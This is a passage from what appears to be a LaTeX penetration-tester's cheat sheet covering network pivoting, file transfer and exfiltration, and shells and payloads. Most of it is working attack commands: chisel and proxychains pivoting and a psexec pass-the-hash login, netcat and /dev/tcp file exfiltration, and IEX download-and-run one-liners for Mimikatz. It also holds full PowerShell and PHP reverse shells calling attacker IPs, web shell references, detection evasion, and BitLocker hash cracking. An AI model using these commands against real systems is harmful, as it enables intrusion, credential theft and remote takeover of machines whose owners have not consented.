create a reverse proxy and open port 1080 on attacker
chisel client IP_ATTACKER:8001 R:socks
\end{verbatim}

on the attacker:
proxychains nmap\ldots
\begin{verbatim}
proxychains4 psexec.py -hashes 00000000000000000000000000000000:27dedb1dab4d8545c6e1c66fba077da0 Administrator@172.16.6.3
\end{verbatim}


\section{VPN pivoting}

\section{links}
\url{https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md}
\url{https://hackmag.com/security/windows-pivoting/}
\url{https://salmonsec.com/cheatsheet/network_pivoting}
\url{https://www.orangecyberdefense.com/fr/insights/blog/ethical-hacking/etat-de-lart-du-pivoting-reseau-en-2019}
\url{https://miloserdov.org/?p=2973}
\url{https://hackmag.com/security/windows-pivoting/}
\url{https://salmonsec.com/cheatsheet/network_pivoting}
\url{https://archive.ph/LnvIQ#selection-2127.0-2127.46}
\url{https://artkond.com/2017/03/23/pivoting-guide/}

\chapter{File Transfert}
\label{misc:file_transfert}

Check :
\begin{itemize}
    \item \href{https://lolbas-project.github.io/}{LOLBAS Project for Windows
        Binaries}
    \item \href{https://gtfobins.github.io/}{GTFOBins for Linux Binaries}
\end{itemize}

\section{Common}
\subsection{Misplaced trus binaries}
list of binaries with network transfert capabilities:
\begin{itemize}
    \item Linux: \url{https://gtfobins.github.io/}
    \item Windows: \url{https://lolbas-project.github.io/}
\end{itemize}

\subsection{X509 certificate}
\textbf{OpenSSL}
\label{openssl-selfsigned}
\begin{verbatim}
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
\end{verbatim}

\textbf{cerutil}
\label{certutil-selfsigned}
\begin{verbatim}
PS1> 
\end{verbatim}

\subsection{File encoding}
\subsubsection{base64}

\begin{verbatim}
# encoding
base64 <filename> 
#decoding
base64 -d <filename>
\end{verbatim}

\subsection{File Encryption}


\section{over HTTP(S)}
\subsection{Linux Server}
\subsubsection{Linux Server setup}
\subsubsection{HTTPS Nginx enable PUT}

Enable hosts in \verb+/etc/nginx/nginx.conf+:

\begin{verbatim}
http {
    ...
    include sites-enabled/*;
}
\end{verbatim}

Create host directory:
\begin{verbatim}
sudo mkdir -p /usr/share/nginx/<site-name>
sudo chown -R http:http /usr/share/nginx/<site-name>
\end{verbatim}

Create self-signed certificate (see~\ref{openssl-selfsigned}) in 
\verb+/etc/nginx/certs/<site-name>+

Create host config (\verb+/etc/nginx/sites-available/<site-name>.conf+):
\begin{verbatim}
server {
    listen              443 ssl;
    server_name         <site-name>;
    ssl_certificate      /etc/nginx/certs/<site-name>/certificate.pem;
    ssl_certificate_key  /etc/nginx/certs/<site-name>/key.pem;
    ssl_protocols       TLSv1 TLSv1.1 TLSv1.2;
    ssl_ciphers         HIGH:!aNULL:!MD5;

	location / {
		root	/usr/share/nginx/<site-name>;
        autoindex on;
		dav_methods	PUT;
	}
}

\end{verbatim}

enable host and restart nginx:
\begin{verbatim}
# symlink might not work
sudo ln -s /etc/nginx/sites-available/<site-name>.conf /etc/nginx/sites-enabled/
sudo systemctl restart nginx.service
\end{verbatim}

\subsubsection{HTTPS SoCat}

Create self-signed certificate (see~\ref{openssl-selfsigned}) and concatenate
key file and cert file into a single file (\verb+tls.pem+)

to send a file:
\begin{verbatim}
# send to prey
socat -v -d -d OPENSSL-LISTEN:1234,crlf,reuseaddr,fork,cert=tls.pem \
    SYSTEM:"
        echo HTTP/1.1 200 OK; 
        echo Content-Type\: text/plain; 
        echo; 
        cat <some_file_response>
    "
\end{verbatim}

to receive a file:

TODO

\subsubsection{HTTP SoCat}

Replace \verb+OPENSSL-LISTEN+ by \verb+TCP-LISTEN+

\subsubsection{HTTP ncat}
\begin{verbatim}
nc -lnvp 8080 > FILENAME
\end{verbatim}

\subsubsection{Interpreted Languages}
\textbf{Python} 
\begin{verbatim}
python -m SimpleHTTPServer 8080
\end{verbatim}

\textbf{Python3} 
\begin{verbatim}
python3 -m http.server 8080
\end{verbatim}

\textbf{Ruby} 
\begin{verbatim}
ruby -run -ehttpd . -p8080
\end{verbatim}

\textbf{Php} 
\begin{verbatim}
php -S 0.0.0.0:8080
\end{verbatim}

\textbf{Socat} 
\begin{verbatim}
socat TCP-LISTEN:8080,reuseaddr,fork
\end{verbatim}

\subsection{Windows Server}
\verb+PS C:\htb> Add-WindowsFeature Web-Server, Web-Mgmt-Tools+

\subsection{Linux client}

\subsubsection{wget}
\begin{verbatim}
#download file
wget SRC_URL -o DEST_FILE
\end{verbatim}


\subsubsection{curl}
\begin{verbatim}
# upload file
curl -k -T SRC_FILE DEST_URL

#download file
curl -o FIL_DEST URL_SRC
\end{verbatim}

\subsubsection{bash (http)}
To download a file:
\begin{verbatim}
# Connect to Target's Webserver
exec 3<>/dev/tcp/IP_SERVER/PORT_SERVER
# HTTP GET Request
echo -e "GET /FILE_PATH HTTP/1.1\n\n">&3
# Print the Response
cat <&3
\end{verbatim}

To upload a file:
\begin{verbatim}
cat SRC_FILE > /dev/tcp/IP_SERVER/PORT_SERVER
\end{verbatim}


\subsubsection{php}
To download a file:
\begin{verbatim}
# File_get_contents()
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'

# Fopen()
php -r 'const BUFFER = 1024; $fremote =
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'

# Php-curl
php -r '$rfile = "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"; $lfile = "LinEnum.sh"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
\end{verbatim}

\subsubsection{python}
\begin{verbatim}
# python2
import urllib
urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")

# Python 3
import urllib.request
urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")

\end{verbatim}

\subsubsection{Other languages}
\begin{verbatim}
\end{verbatim}

\subsubsection{}
\begin{verbatim}
# Ruby
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'

# Perl

perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'

# Go

package main

import (
	 "os"
     "io"
     "net/http"
)
func main() {
     lfile, err := os.Create("LinEnum.sh")
     _ = err
     defer lfile.Close()

     rfile := "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"
     response, err := http.Get(rfile)
     defer response.Body.Close()

     io.Copy(lfile, response.Body)
}
\end{verbatim}

\subsection{Windows client}

\subsubsection{Certutil}
\begin{verbatim}
certutil.exe -urlcache -split -f http://10.0.0.5/40564.exe bad.exe
\end{verbatim}

\subsubsection{CertReq}

\begin{verbatim}
CertReq -Post -config https://example.org/ c:\windows\win.ini
\end{verbatim}

\subsubsection{PowerShell}
To download a file:
\begin{verbatim}
curl http://IP/file -O PATH
\end{verbatim}

\begin{verbatim}
(New-Object System.Net.WebClient).DownloadFile('URLSRC',"LOCAL_PATH")

Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex
\end{verbatim}

\verb+-UseBasicParsing+: bypass IE initial config

To upload a file:
\begin{verbatim}
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))

Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64


$stp = [System.convert]::FromBase64String((Get-Content -Path './upload_win.txt'))
Set-COntent -Path './xx.exe' $stp -Encoding Byte

\end{verbatim}

\subsubsection{bitsadmin}

\begin{verbatim}
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
\end{verbatim}

To download a file
\begin{verbatim}
Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
\end{verbatim}

To upload a file
\begin{verbatim}
Start-BitsTransfer "C:\Temp\bloodhound.zip"
	-Destination "http://10.10.10.132/uploads/bloodhound.zip"
	-TransferType Upload -ProxyUsage Override
	-ProxyList PROXY01:8080
	-ProxyCredential INLANEFREIGHT\svc-sql
\end{verbatim}

\section{over TLS}

\subsection{Linux Server}
\subsubsection{Openssl}
\begin{verbatim}
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 \
    -out certificate.pem

openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem  \
    < /tmp/LinEnum.sh
\end{verbatim}

\subsubsection{SoCat}
\begin{verbatim}
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 \
    -out cert.pem
cat key.pem cert.pem > sslkey.pem

# send to prey
socat -d [-d] OPENSSL-LISTEN:<port>,cert=sslkey.pem,verify=0,fork \
    file:./served_file
# recv to prey 
socat -d [-d] OPENSSL-LISTEN:<port>,cert=sslkey.pem,verify=0,fork \ 
    STDOUT > /path/to/downloaded/file
\end{verbatim}



\subsection{Windows Servers}
\begin{verbatim}
PS C:\> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
PS C:\> certutil.exe -encode nc.exe nc.txt
PS C:\> certutil.exe -decode nc.txt nc.exe
# Si openssl
PS C:\htb> openssl.exe enc -base64 -in nc.exe -out nc.txt
PS C:\htb> openssl.exe enc -base64 -d -in nc.txt -out nc.exe
\end{verbatim}

\subsection{Linux client}
\begin{verbatim}
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
\end{verbatim}

\subsection{Windows client}
\begin{verbatim}
\end{verbatim}

\section{over TCP}
\begin{verbatim}
# injection  (prey=server)
@prey:~$ nc -nlvp 8000 > mimikatz.exe
@predator:~$ nc -nv 10.10.10.132 8000 <mimikatz.exe
# exflitration  (prey=server)
@prey:~$ nc -nlvp 8000 < mimikatz.exe
@predator:~$ nc -nv 10.10.10.132 8000 > mimikatz.exe

# exflitration  (predator=server)
@predator:~$ nc -nlvp 8000 > mimikatz.exe
@prey:~$ nc -nv 10.10.10.132 8000 <mimikatz.exe
# injection  (target=server)
@predator:~$ nc -nlvp 8000 < mimikatz.exe
@prey:~$ nc -nv 10.10.10.132 8000 > mimikatz.exe

# alternative
cat < /dev/tcp/10.10.10.32/80 > LinEnum.sh


socat -u TCP:192.168.1.97:5778 STDOUT > /path/to/downloaded/file
\end{verbatim}



\subsection{Linux Server}
\subsection{Windows Servers}

\subsection{Linux client}
\subsection{Windows client}

\section{over FTP/tftp}

\subsection{Linux Server}

\subsubsection{python}
\begin{verbatim}
pipenv install pyftpdlib
pipenv run python3 -m pyftpdlib --user=<LOGIN> --password=<PASSWORD> -w
\end{verbatim}


\subsection{Windows Servers}

\subsection{Linux client}

\subsubsection{curl}

Support ftp and tftp


\subsection{Windows client}

\begin{verbatim}
PS C:\htb> ftp -s:ftp-script.txt
PS C:\htb> Install-WindowsFeature TFTP-Client
\end{verbatim}

\section{over SMB}
In case SMB traffic through the firewall has been restricted, WebDAV may be a good option, as it relies on HTTP as a transport protocol. Some common tools that support file transfers from SMB and WebDAV shares are reviewed below.



\subsection{Linux Server}


\subsubsection{Impacket SMBServer}

\begin{verbatim}
smbserver.py --help

smbserver.py -smb2support  -user USERNAME -password PASSWORD SHARE_NAME <location>

sudo smbclient -L 127.0.0.1
\end{verbatim}

\subsection{Windows Servers}

\url{https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/smb}

\url{https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer}

\begin{verbatim}
mkdir C:\share
icacls C:\share\ /T /grant Anonymous` logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f  # this will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f

\end{verbatim}



\subsection{Windows client}


\begin{verbatim}
 net use z: \\IP\SHARE_NAME /user:LOGIN PASSWORD
# or simply
\\IP\SHARE_NAME /user:LOGIN PASSWORD

\end{verbatim}


\begin{verbatim}
# Copy-Item
Copy-Item c:\MyTestFolder\* -Destination \\$comp1\c$\Test -Force -Recurse
PS C:\> Copy-Item -Path C:\Temp\nc.exe -Destination C:\Temp\nc.exe -ToSession $session

# Set-Content
PS C:\> $file = Get-Content C:\Temp\nc.exe -Raw
PS C:\> Invoke-Command -ComputerName 10.10.10.132 -ScriptBlock {Set-Content -Path C:\Temp\nc.exe -value $using:file}
# Copy / xcopy / robocopy
PS C:\> xcopy \\10.10.10.132\share\nc.exe nc.exe
PS C:\> copy C:\Temp\nc.exe \\10.10.10.132\c$\Temp\nc.exe
# Map / Mount Drives
PS C:\> net use Q: \\10.10.10.132\share
PS C:\> pushd \\10.10.10.132\share
PS C:\> mklink /D share \\10.10.10.132\share
\end{verbatim}

\subsection{Linux client}

\subsubsection{Smbclient}
\begin{verbatim}
smbclient //10.10.10.132/share -U username -W domain
\end{verbatim}

\subsubsection{Impacket}
\begin{verbatim}

\end{verbatim}

\section{over RDP}

\subsection{Linux Server}

\subsection{Windows Servers}

\subsection{Linux client}
\begin{verbatim}
rdesktop 10.10.10.132 -r disk:linux='/home/user/rdesktop/files'
ternatively, from Windows, the native mstsc.exe remote desktop client can be
used. (local Ressources tab)
PS C:\htb> copy \\tsclient\c\temp\mimikatz.exe .
\end{verbatim}


\subsection{Windows client}

\section{Evading Detection}
Modifying user-Agent

\url{http://useragentstring.com/pages/useragentstring.php}

\subsection{Windows}
\begin{verbatim}
PS C:\htb> [Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16


PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
\end{verbatim}


\chapter{Shell and payloads}

\section{Shell basic}
\url{https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows}

\url{https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux}



With a bind shell, the target system has a listener started and awaits a
connection from a attacker's system. 

With a reverse shell, the attack box will have a listener running, and the
target will need to initiate the connection.

\subsection{Bind shell}

\subsubsection{netcat}
\begin{verbatim}
Target@server:~$ nc -lvnp $PORT_NUMBER
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l $IP $PORT > /tmp/f
\end{verbatim}
\begin{itemize}
    \item remove named pipe if exist
    \item create a
         \href{https://man7.org/linux/man-pages/man7/fifo.7.html}{FIFO named
        pipe}
    \item redirect instruction to interactive bash which std error and std in
        are redirected to nc
    \item redirect nc to the pipe
\end{itemize}

\begin{verbatim}
nc -nv $TARGET_IP $PORT_NUMBER
\end{verbatim}

\subsection{Reverse shell}

\href{https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md}{Reverse
Shell Cheat Sheet}

\begin{verbatim}
powershell -nop -c "
    $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);
    $stream = $client.GetStream();
    [byte[]]$bytes = 0..65535|%{0};
    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
        $sendback = (iex $data 2>&1 | Out-String );
        $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
        $stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()
    };
    $client.Close()"
\end{verbatim}


\begin{itemize}
    \item exec poweshell with no profile ans script block
    \item bind a socket
    \item set the command stream
    \item create empty byte stream 
    \item iterate 
    \begin{itemize}
        \item transform the buffer the byte stream to ASCII
        \item Invoke-Expression (iex) on the command set the content in
        \verb+$sendback+ hen redirects the standard error and std input to
        \verb+Out-String+ cmdlet
        \item show Working Directory
        \item Sets Sendbyte equal to the ASCII encoded byte stream that will
            use a TCP client to initiate a PowerShell session with a Netcat
    \end{itemize}
    \item close the TCP connection 

\end{itemize}

\subsubsection{PHP proc\_open}
\begin{verbatim}
$descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
 );

 $cwd = '/tmp';
 $env = array('some_option' => 'aeiou');

 $process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);

 if (is_resource($process)) {
     // $pipes now looks like this:
     // 0 => writeable handle connected to child stdin
     // 1 => readable handle connected to child stdout
     // Any error output will be appended to /tmp/error-output.txt

     //fwrite($pipes[0], 'nc 10.10.16.3 4444');
     fwrite($pipes[0], 'rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 4444 >/tmp/f');
     fclose($pipes[0]);

     echo stream_get_contents($pipes[1]);
     fclose($pipes[1]);

     // It is important that you close any pipes before calling
     // proc_close in order to avoid a deadlock
     $return_value = proc_close($process);

     echo "command returned $return_value\n";
 }
 \end{verbatim}

\section{Crafting payload}

\subsection{msfvenom}
\url{https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom}


See MSFVenom~\ref{tool:metasploit:msfvenom}

Staged payloads create a way to send over more components of the attack. For
example the i\verb+linux/x86/shell/reverse_tcp+ payload, when run using an
exploit module in Metasploit, will send a small stage that will be executed on
the target and then call back to the attack box to download the remainder of
the payload over the network, then executes the shellcode to establish a
reverse shell. It is important to remember that a stage also takes up space in
memory which leaves less space for the payload. What happens at each stage
could vary depending on the payload.

Stageless payloads do not have a stage. This payload will be sent in its
entirety across a network connection without a stage. This could benefit us in
environments where there is not much bandwidth and latency can interfere.
Staged payloads could lead to unstable shell sessions in these environments, so
it would be best to select a stageless payload. In addition to this, stageless
payloads can sometimes be better for evasion purposes due to less traffic
passing over the network to execute the payload, especially if we deliver it by
employing social engineering. This concept is also very well explained by Rapid
7 in this blog post on
\href{https://www.rapid7.com/blog/post/2015/03/25/stageless-meterpreter-payloads/}{stageless
Meterpreter payloads}.

\verb+linux/x86/shell/reverse_tcp+ is a staged payload since each / in its name represents a stage from the shell forward. 

\verb+windows/meterpreter_reverse_tcp+ is a Stageless payload since the shell
payload and network communication in the same portion of the name. If the name
of the payload doesn't appear quite clear, it will often detail if the payload
is staged or stageless in the description.

\begin{itemize}
        \item Mythic C2 Framework 	is an alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.
        \item Nishang 	is a framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.
        \item Darkarmour is a tool to generate and utilize obfuscated binaries for use against Windows hosts.
\end{itemize}

\subsection{micr0 shell}

\href{https://github.com/senzee1984/micr0_shell}{micr0 shell} s a lightweight and efficient Python script designed for dynamically generating Windows X64 Position-Independent Code (PIC) Null-Free reverse shell shellcode. It  avoides the inclusion of \verb+0x00+ bytes. Additionally, because MSF's shellcode is widely used and therefore more likely to be flagged by signature-based detection methods, the shellcode generated by micr0shell offers an added layer of evasion capability.

\begin{verbatim}
python micr0\ shell.py --ip 10.10.16.2 -p 4444 --language csharp
\end{verbatim}



\section{Full TTY}

\url{https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys}


 \subsection{Python}
\begin{verbatim}
python -c 'import pty; pty.spawn("/bin/sh")'
\end{verbatim}


\subsection{netcat with magic}

\url{https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/}

First, follow the same technique as in Method 1 and use Python to spawn a PTY.
Once bash is running in the PTY, background the shell with \verb+Ctrl-Z+



\subsection{Socat}

\subsubsection{Victim}
\verb+socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:PORT+
\subsubsection{Attacker}

\verb+socat file:`tty`,raw,echo=0 tcp-listen:PORT+

\subsection{perl, ruby and others}
\begin{verbatim}
/bin/sh -i

perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";


ruby: exec "/bin/sh"

lua: os.execute('/bin/sh')

awk 'BEGIN {system("/bin/sh")}'

find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
find . -exec /bin/sh \; -quit

vim -c ':!/bin/sh'

vim
:set shell=/bin/sh
:shell
\end{verbatim}

\section{Web shells}
A web shell is a browser-based shell session that can be  use to interact with
the underlying operating system of a web server. 

\subsection{Laudanum}

\href{https://github.com/adamcaudill/laudanum}{Laudanum} ncludes injectable
files for many different web application languages to include asp, aspx, jsp,
php,\ldots

The shell file need to be edited since it restrict the IP allowed to access it.



\subsection{Antak}

Part of \href{https://github.com/samratashok/nishang}{Nishang project}
Modify the credential in the aspx file

\subsection{WhiteWinterWolf's PHP Web Shell}

\chapter{Misc}


\chapter{Misc Windows}
\section{bitlocked VHD backup}

Here's the situation -- you're on a network and you find a Network Attached
Storage device with a share protected using a weak password.  You brute force
the password and once you login, you find a WindowsImageBackup directory which
houses the data from a Windows Server Backup.  When we view the contents, we're
interested in the files with the VHD or VHDX extension.  VHDX is essentially
the same as VHD but the size limit on VHDX was increased to 2TB.  That's
neither here nor there, what we really want is inside the file.


To mount the \verb+libguestfs+ package is requiered.

\begin{verbatim}
sudo guestmount --add VHD_FILE_PATH  --inspector --ro MOUNT_POINY -v
\end{verbatim}

if the disk is bitlocked the passphrase is requested by \verb+guestmount+. To
obtain if :
\begin{verbatim}
bitlocker2john -i Backup.vhd > backup.hashes
hashcat -m 22100 backup.hash  WORDLIST -o OUTPUT_FILE
\end{verbatim}


on windows only try to mount the \verb+vhd+ either there is a prompt to enter
the passphrase or an error. Then launch \verb+manage bitlocker+ and find the drive in
removable media.

